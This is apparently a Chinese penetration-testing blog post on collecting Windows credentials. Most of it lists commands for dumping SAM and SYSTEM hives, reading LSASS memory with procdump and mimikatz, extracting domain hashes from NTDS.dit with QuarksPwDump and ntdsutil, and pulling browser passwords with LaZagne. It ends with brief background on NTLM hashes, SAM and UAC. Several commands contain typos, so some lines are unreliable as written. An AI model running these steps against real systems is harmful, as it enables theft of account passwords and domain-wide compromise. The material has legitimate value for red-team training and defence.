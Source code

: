 # 内网渗透-Windows凭据收集之系统账号密码(9)

  
  
&lt;!--more--&gt;  
## 收集方法  
### 提取SAM数据库的hash  
使用`reg`命令保存注册表键  
```  
reg save hklm\sam c:\sam.hive  
reg save hklm\system c:\system.hive  
```  
### 使用Invoke-NinjaCopy  
```  
Import-Module \invoke\ninjacopy.ps1  
Invoke-NinjaCopy-Path C:\sam.hive  
Invoke-NinjaCopy-Path C:\system.hive  
```  
读取hive文件  
```  
mimikatz.exe &#34;lsadump::sam /system:system.hive /sam:sam.hive&#34; exit  
python secretsdump.py -sam sam.hive -security security.hive -system system.hive LOCAL  
```  
### procdump.exe  
`procdump.exe -ma lsass.exe lsass.dmp`  
获取到内存转储文件后，就可以使用mimikatz来提取密码  
```  
sekurlsa::minidump lsass.dmp  
sekurlsa::logonpasswords  
```  
### createdump.exe  
```  
createdmp.exe -u -f lsass.dmp lsass进程PID号  
查询进程号: tasklist | find &#34;lsass&#34;  
```  
### Get-PassHashes.ps1  
```  
..\GetPassHashes.ps1  
GetPassHashes  
```  
### netpass  
直接运行  
https://www.secpulse.com/archives/tag/QuarksPwDump  
```  
参数解释  
-dhl 导出本地哈希值  
-dhdc 导出内存中的域控哈希值  
-dhd  导致域控哈希值，必须制定NTDS文件  
-db 导出Bitlocker信息，必须指定NTDS文件  
-nt 导出ntds文件  
-hist 导出历史信息，可选项  
-t 导出类型可选默认导出为John类型。  
-o 导出文件到本地  
```  
```  
QuarksPwDump.exe -dhl -o 1.txt \\将导出本地哈希值到当前目录的1.txt  
配合ntdutil工具导出域控密码  
ntdsutil snapshot &#34;active instance ntds&#34; create quit quit  
QuarkPwDump.exe --dmp-hash-domain --ntds0file c:\ntds.dit  
```  
### pwdump7  
`Pwddump7.exe &gt; pass.txt \\读取出hash保存到pass.txt`  
### LaZagne  
```  
laZagne.exe all \\启动所有模块  
laZagne.exe browsers \\启动特定模块  
laZagne.exe browsers -firefox \\抓去特定一个软件的密码，比如抓去火狐  
laZagne.exe all -oN \\-oN表示普通txt  
```  
## Windows账户  
`Windows`用户的密码加密后一般有两种形式:`NTML Hash`和`LM Hash`（从windows Vista和2008开始，微软就取消了LMHash）  
对于域用户，则存储在域控制器的NTDS.dit数据库中(域控NTDS数据库：%SystemRoot%\NTDS)  
### SAM  
本地SAM数据库(安全账户管理器)`%SystemRoot%/system32/config/SAM`，且挂载于`HKLM/SAM`。  
sam文件：用来存储本地用户账号密码的文件的数据库`使用syskey解密HKLM\SAM`  
system文件：用来sam文件进行加密和解密的密钥`读取HKLM\SYSTEM，获得syskey`  
### UAC`[全称是User Account Control(账号控制器)]`  
当我们右键某个可执行文件，选择以管理员身份运行，就会弹出一个对话框，依据当前用户权限的不同，可能是要求我们输入管理员凭据，也可能是询问我们是否允许该程序进行更改。这其实就是UAC。  
ACL(Access Control List)：Windows中所有资源都有ACL，这个列表决定了拥有何种权限的用户/进程能够使用这个资源  
	在开启了 UAC 之后，如果用户是标准用户， Windows 会给用户分配一个标准 Access Token。如果用户以管理员权限登陆，会生成两份访问令牌，一份是完整的管理员访问令牌（Full Access Token），一份是标准用户令牌。一般情况下会以标准用户权限启动 Explorer.exe 进程。如果用户同意，则赋予完整管理员权限访问令牌进行操作。  
经常提到的hash传递失败，有文章解释是kb281997补丁的问题，实际上是UAC的更新的问题。  

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-windows%E5%87%AD%E6%8D%AE%E6%94%B6%E9%9B%86%E4%B9%8B%E7%B3%BB%E7%BB%9F%E8%B4%A6%E5%8F%B7%E5%AF%86%E7%A0%819/  

